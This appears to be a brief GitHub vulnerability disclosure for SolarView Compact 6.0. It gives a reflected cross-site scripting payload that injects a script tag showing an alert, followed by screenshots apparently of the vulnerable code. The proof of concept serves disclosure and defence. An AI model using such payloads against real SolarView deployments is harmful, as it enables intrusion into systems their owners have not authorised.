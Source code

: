 # SolarView_Compact_6.0_xss

### payload
```
/"><script>alert("XSS")</script>
```
#### Vulnerability code

![image](https://user-images.githubusercontent.com/72059221/169168747-55426da3-9150-4266-b4e3-b0bcfbbdd410.png)



![image](https://user-images.githubusercontent.com/72059221/169169114-f6b871e6-8b6a-46fa-b007-54588089e2fe.png)


![image](https://user-images.githubusercontent.com/72059221/169169170-0936209d-bad8-4c0b-99f5-f382774670f9.png)

